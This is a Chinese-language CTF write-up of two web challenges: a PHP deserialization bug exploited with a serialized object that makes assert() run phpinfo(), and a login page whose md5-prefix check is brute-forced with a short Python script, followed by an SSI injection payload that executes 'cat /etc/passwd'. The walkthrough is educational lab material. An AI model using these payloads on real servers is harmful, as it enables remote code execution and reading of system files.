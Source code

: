 ```yaml
---
title: ReadlezPHP&EasySearch
date: 2021-04-20 17:12:43
categories: ['CTF']
tags: ['反序列化','SSI注入']
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120223513.jpg
---
```


# ReadlezPHP



源码找到`time.php?source`

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210420175641.png)

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

分析一波：最后一行一个反序列化，所以很明显是反序列化的题目，在`HelloPhp`中有一个`__destruct`方法，会在创建的对象销毁时执行，注意里面有一个echo输出，最重要的是后面的函数调用 ，好像是在PHP7某个版本之后只是使用形如`$a($b)`格式进行函数调用，假如变量`a`为字符串`var_dump`，`b`是任意字符串，就相当于调用var_dump函数且参数为b。

所以构造反序列化，调用assert函数执行phpinfo。如果向**assert()** 函数传递字符串，它将会被 **assert()** 当做 PHP 代码来执行)：

```
<?php
class HelloPhp
{
    public $a='phpinfo()';
    public $b='assert';
}

$s=new HelloPhp();
echo serialize($s);

```

POST请求

```
time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

页面查找flag，在environment中找到flag

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210420175822.png)

# EasySearch

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210420171541.png)

进入页面以后试了试sql注入发现没用。第一步是看了wp找到的：使用扫描器扫描到`index.php.swp`文件：

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

登陆功能又一个验证，需要传入的`passwd`参数使用**md5**加密以后是以**6d0bc1**开头的。简单写个脚本跑一下就有了：

```python
# codeing=utf-8
import hashlib

cnt=1;
while True:
    md=hashlib.md5(str(cnt).encode("utf8")).hexdigest()
    if md.startswith("6d0bc1"):
        print(cnt)
    cnt+=1
#2020666
#2305004
```

分析源码登陆以后会创建一个欢迎页，使用POST请求，抓包可以在响应头里找到创建文件的位置和名称。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210417102904.png)

看了看文件后缀是一格没有见过的：`shtml`，然后学到到了shtml有一种漏洞：[SSI注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)

> SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。

简单的命令执行

```code
"-->'-->`--><<!--#exec cmd="cat /etc/passwd"-->
```

我使用了反弹shell，自行修改一下命令即可。在/var/www/html目录下可以找到一个名为`flag_990c66bf85a09c664f0b6741840499b2`的文件，获得flag